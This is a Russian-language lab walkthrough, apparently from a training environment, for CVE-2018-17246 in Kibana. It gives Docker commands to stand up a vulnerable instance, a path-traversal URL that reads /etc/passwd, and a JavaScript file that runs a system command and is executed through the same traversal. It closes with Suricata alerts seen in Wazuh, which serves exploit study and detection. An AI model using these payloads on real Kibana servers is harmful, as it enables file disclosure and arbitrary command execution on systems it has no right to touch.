




# CVE-2018-17246

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2018-17246](https://nvd.nist.gov/vuln/detail/CVE-2018-17246)
* [https://www.opencve.io/cve/CVE-2018-17246](https://www.opencve.io/cve/CVE-2018-17246)

Kibana — это панель визуализации данных для Elasticsearch  с открытым исходным кодом.

Версии Kibana до 6.4.3 и 5.6.13 содержат ошибку включения произвольных файлов в плагине консоли. Злоумышленник, имеющий доступ к API консоли Kibana, может отправить запрос, который попытается выполнить код JavaScript. Это может привести к тому, что злоумышленник сможет выполнять произвольные команды с разрешениями процесса Kibana на хосте.

### Эксплуатация уязвимости&#x20;

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601 будет доступна панель Kibana

Введите следующий URL-адрес в вашу поисковую строку:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

<figure><figcaption></figcaption></figure>

При отправке этого запроса возникает 500-я ошибка, но мы можем увидеть исключение в логах контейнера (`docker compose logs`)

<figure><figcaption></figcaption></figure>

Для реализации уязвимости запишите следующий код в файл на уязвимом хосте&#x20;

```
docker compose exec kibana bash
echo "export default {asJson: function() {return require(\"child_process\").execSync(\"id\").toString()}}" > /tmp/vulhub.js
```

После отправки следующего  GET-запроса в ответе мы получим результат выполнения команды id на целевой машине:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/vulhub.js
```

<figure><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><figcaption></figcaption></figure>
